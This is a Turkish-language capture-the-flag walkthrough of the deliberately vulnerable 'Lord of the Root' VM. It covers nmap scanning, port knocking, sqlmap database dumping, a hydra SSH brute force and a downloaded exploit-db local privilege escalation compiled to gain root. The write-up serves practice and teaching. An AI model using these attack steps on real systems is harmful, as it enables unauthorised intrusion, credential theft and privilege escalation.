

Lord of the Root
Lord of the Rings serisi hayranlarına bir çalışma makinesi Lord of the Root makinesinin çözümü.
Merhabalar. Bu yazımda sizlerle Lord of the Root makinesini çözmeye çalışacağız. Lord of the Rings serisini okuyan ve filmlerini hayranlıkla izleyen birisi olarak bu makine çözümü oldukça heyecan vericiydi.
Bu güzel yapıta ait bir fotoğraf koymasam olmazdı. En temel karakterleri Legolas, Aragorn, Gimli, Gandalf ve Frodo olan bu yapıtta filmden birkaç ipucu olması lazım. Tabii ki bu benim görüşüm bakalım ne ile karşılaşacağız.
O zaman yavaş yavaş başlayalım. Her zaman ki gibi hedef makineyi tespit ederek başlayalım.
netdiscover komutu ile;
Hedef makineyi tespit ediyoruz. Her zaman dediğim gibi öncelikle nereye saldıracağımızı bilmemiz gerekiyor.
ifconfig komutu ile;
Kendi IP adresimizi öğreniyoruz. Herhangi bir payload kullanacağımız zaman lazım olabilir. Ne kadar çok şey bilirsek sisteme/makineye sızmamız o kadar kolay olacaktır.
nmap -A 192.168.43.215 komutu ile;
Agresif bir tarama yaptık. Zafiyetli bir makine olduğunu bildiğimiz için rahatça -A parametresini kullandık. Peki ne ile karşılaştık SSH portu açık. Hedef makine de Linux işletim sistemi çalışıyor. Elimizde sadece bir port var. Pek bir alternatifimiz yok yani.
Evet bir ipucu bulduk işte. Güzel bir LOTR yazısının arkasında Knock Friend To Enter yazıyor. Yani girmek için arkadaşına çal/zilini çal/kapısını çal yazıyor. Sol altta da Easy as 1,2,3 yani 1,2,3 gibi kolay yazıyor. Belirli bir senaryo var biz onu izleyeceğiz galiba. Burada bizden port knocking işlemi yapmamızı istiyor.
Port knocking nedir? Aslında faal olan servislerin kapalı gibi gösterilmesi için kullanılan bir yöntemdir. Biz bu portlara(1,2,3) knock işlemi yaptığımızda aslında faal olan ama bizim nmap taramamızda göremediğimiz bir servis tekrar faal duruma gelecek.
apt-get install knockd komutu ile;
Knock işlemini yapmam için kullanacağımız tool olan knockd’ı indiriyoruz.
knock 192.168.43.215 1 2 3 komutu ile;
1,2 ve 3. portlara knock işlemi yapıyoruz ve hemen bir değişiklik var mı diye nmap taramasını tekrarlıyoruz.
nmap -p- -sCV -A 192.168.43.215 komutu ile;
Burada -p- parametresi bütün portları taramak için kullandığımız bir parametre. Servisin default dışında bir portta çalışma ihtimaline karşı kullanılan bir parametre. -sCV parametresi ise -sC ve -sV parametrelerinin kombinasyonu bir parametredir. -sC parametresi default script parametresidir. -sV parametresi ise servis/uygulama sürüm tespiti parametresidir. Bir arada kullandığımızda servis tespiti için default scriptler kullanıyor.
Parametreleri incelediğimize göre farklılıklara bakabiliriz artık. SSH portu açık, bir de 1337 http servisi açık. Hemen kontrol edelim.
192.168.43.215:1337
Adresine gidiyoruz. Allah affetsin, bu kız kardeşimiz biraz sinirli galiba. “I will do it. I will take the ring into Mordor.” Diyor. Yani “Yapacağım. Yüzüğü Mordor’a götüreceğim.” Anlamına geliyor. Burada Mordor bir ipucu bence. Yani öyle olmalı source code’una baktım pek bir şey çıkaramadım açıkçası.
192.168.43.215:1337/mordor
Adresine geldik ve bizi Frodo ve yoldaşı Sam karşılıyor. Filmden bir replik. “Sam, we can’t go this way. The black gate is too mainstream.” Burada bay Frodo “Sam bu yoldan da gidemeyiz. Siyah kapıda ana akım.” gibi bir şey diyor. Filmde burada Black Gate’e geliyor bu iki yoldaş ve Sauron’un ordusunun akına çıktığını ve bu kapıyı kullanan binlerce ork askeri olduğunu görüyor ve yönlerini değiştiriyor. Sanırım bizimde yön değiştirmemiz gerekiyor. Source code’a bakıyoruz.
Evet burada bir ipucu daha bulduk. Hemen bu metni kopyalayıp alıyoruz.
echo “THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh”|based64 –decode
Komutu ile base64 decode işlemi yapıyoruz. Closer! Yaklaştınız yazısını görüyoruz. Tekrar decode ediyoruz.
echo “Lzk3ODM0NTIxMC9pbmRleC5waHA” | base64 –decode
Komutu ile tekrar decode ettiğimizde evet sonuca ulaştık. Bize bir php uzantısı verdi. Hemen bunu da deniyoruz.
192.168.43.215:1337/978345210/index.php
Adresine girdiğimizde bir login sayfası ile karşılaşıyoruz.
sqlmap -o -u http:// 192.168.43.215:1337/978345210/index.php --forms --dbs
Bu komutu kullanarak sqlmap tool’u yardımı ile bu form arkasında kullanılan sql database’ini tespit ediyoruz. Dört farklı database tespit edildi. Webapp database’ini kontrol edelim.
sqlmap -u http:// 192.168.43.215:1337/978345210/index.php --forms -D Webapp --tableskomutu ile;
Webapp database’inde yer alan tabloları kontrol ediyoruz. Users diye bir tablo var. Aradığımız şey bu olsa gerek.
sqlmap -u http:// 192.168.43.215:1337/978345210/index.php --forms -D Webapp -T Users --columns komutu ile;
Webapp database’inde bulunan Users tablosunun sütunlarını(columns) taradık. Üç adet sütun bulunmaktadır. id, password, username ve bunların tip bilgileride geldi.
sqlmap -u http:// 192.168.43.215:1337/978345210/index.php --forms -D Webapp -T Users -C id,username,password --dump komutu ile;
Webapp database’inin Users tablosunun id, username ve password sütunlarını tarıyoruz. 5 kullanıcıya ait kullanıcı adı ve şifreye ulaşmış olduk.
192.168.43.215:1337/978345210/index.php
Adresine gittim ve hemen bir kullanıcı adı ve şifre denedim. Başarılı bir şekilde giriş yapmış oldum tabii ki ama açılan 192.168.43.215:1337/978345210/profile.php sayfasını görünce yanlış giden bir şeyler olduğunu düşünmeye başladım. Source code’unu incelediğimde de bir ipucu ile karşılaşmadım.
Burada elimizde beş kullanıcı ve bunların profile.php için kullandıkları 5 adet parola var. Bu kullanıcılar SSH bağlantısı için acaba aynı parolayı mı kullanıyorlar?
Burada sqlmap in verdiği csv dosyasını açtım ve kendime bir adet usr.txt ve bir adet de pass.txt oluşturdum. Bu şifreler ile BruteForce atacağız. Olmazsa bir passlist.txt deneyeceğiz.
hydra -L /root/Desktop/lotr/usr -P /root/Desktop/lotr/pass ssh://192.168.43.215 komutu ile;
Hydra aracını kullanarak BruteForce atıyoruz. Burada kendi oluşturduğum dosyaların dizinlerini verdim ssh ile hangi IP adresine saldırı yapılacağını belirledim. Bizim gollum arkadaşımız Smeagol SSH bağlantısı yapabiliyor ve şifresi de database’de tespit ettiğimiz şifre ile aynı.
ssh smeagol@192.168.43.215
Teşekkürler gollum kardeş. Sanırım artık makine içerisine girmiş bulunmaktayız.
lskomutu ile;
Hemen bir ipucu daha aradım fakat bir şey bulamadım. Peki yetki yükseltebileceğimiz bir uygulama var mı diye bakıyorum hemen.
find / -perm -4000 2>/dev/null
Maalesef yetki yükseltmek için kullanabileceğim bir uygulama göremedim. Eğer siz gördüyseniz bana bunu bildirebilirsiniz. Benim dikkatimi sadece SECRET klasörü ve içerisinde bulunan door1, door2 ve door3 klasörleri çekti.
Dosyaların içerisinde birer file dosyası var.
file filekomutu ile;
Dosya yapılarını kontrol ediyorum. Bu üç dosyada executable, yani yürütülebilir ve string input alan dosyalar. Dosyaların boyutlarını karşılaştırıyorum hemen.
du -b door1/file door2/file door3/file
Burada byte cinsinden boyutlarını elde ettik ve door1 klasöründe bulunan file dosyası diğer iki dosyadan farklı.
cp door1/file /home/smeagol/buffer komutu ile;
Üzerinde rahatça çalışmak için bir kopyasını alıyorum.
./buffer $(python -c “print ‘a’*300”) ve diğer komutlar ile;
Aldığım bu kopyayı belirli karakter uzunluğunda stringler ile çalıştırdım. Bunu
./buffer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa..
Şeklinde de yapabiliriniz ama ben bu şekilde kısa bir script ile yapma taraftarıyım. Siber güvenlik alanında ilgilenirken python bilmenin büyük faydaları olduğunu söylemiş bulunayım bu arada.
Yaptığımız işlemde 170 adet char karakter aldığını 171’inci char karakter geldiğinde buffer overflow oldu. Ara bellek aşımı da diyebiliriz. Peki buffer overflow nedir? Buffer overflow bir bardaktan suyun taşmasına benzetebiliriz. Programda belirlenmiş bir belleğe, kapasitesinden fazla veri atamasında bulunursak(5 limitli bir stack için 6. veriyi push yaparsak gibi) ortaya çıkan bir bellek taşması zafiyetidir.
Bu işlem uzayacak gibi derken aklıma bir fikir daha geldi. İşletim sistemimiz Linux. Belki bunu kullanabiliriz
uname –allkomutu ile;
İşletim sistemi hakkında biraz daha fazla bilgi ediniyoruz. Ubuntu 14.
searchsploit ubuntu 14komutu ile;
Buradan uygun exploit’i seçiyoruz. Burada “Local Privilege Escalation” dikkatimizi çekiyor. “Yerel Ayrıcalık Yükselmesi” anlamına geliyor. Bunu kullanabiliriz bence.
39166 exploit numarısını exploit-db.com üzerinden aratıyoruz ve download adres uzantısını alıyoruz.
wget https://www.exploit-db.com/download/39166komutu ile;
Hedef makine üzerine exploit kurulumunu yapıyoruz.
ls -allkomutu ile;
Dosyaları kontrol ediyoruz ve göründüğü üzere başarılı bir şekilde dosyamız hazır ve nazır beklemekte.
file 39166komutu ile;
Dosya yapısını inceliyoruz. C source bir dosya. Yani C derleme işlemi yapacağız. Bunun için dosya ismini 39166.c olarak değiştirdim. Bunun içinde
mv 39166 39166.cLinux komutunu kullanıyoruz.
gcc 39166.c -o privesc komutu;
Bu komut ile derleme işlemini yapıyoruz. Linux üzerinde C dilini kullanan arkadaşlar bu komuta aşinadır. Ben yine de açıklayayım. gcc komutu c dili derleme komutudur. Bu komuttan sonra derlenecek dosya verilir. -o parametresi derlenmiş executable dosya adını belirlememizi sağlar. Biz privesc adında derleme işlemini tamamladık.
Geriye sadece bu dosyayı çalıştırmak yapmak gerekiyor.
./privesc
Bir şeyler oldu.
whoami
root
Artık root yetkisini aldık. Yeni makineniz hayırlı uğurlu olsun.